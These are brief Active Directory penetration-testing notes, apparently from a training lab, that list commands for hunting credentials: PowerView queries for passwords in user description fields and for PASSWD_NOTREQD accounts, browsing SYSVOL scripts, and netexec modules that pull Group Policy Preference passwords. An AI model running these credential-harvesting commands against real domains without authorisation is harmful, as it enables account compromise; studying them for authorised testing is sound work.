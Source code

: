 1. Password in Description Field
```powershell
 Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```
2. PASSWD_NOTREQD Field
	- If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all
```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```
3. Credentials in SMB Shares and SYSVOL Scripts
```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```
4. GPP Passwords
```bash
netexec smb <DC-IP> -u john -p pass -M gpp_password
netexec smb <DC-IP> -u john -p pass -M gpp_autologin
```
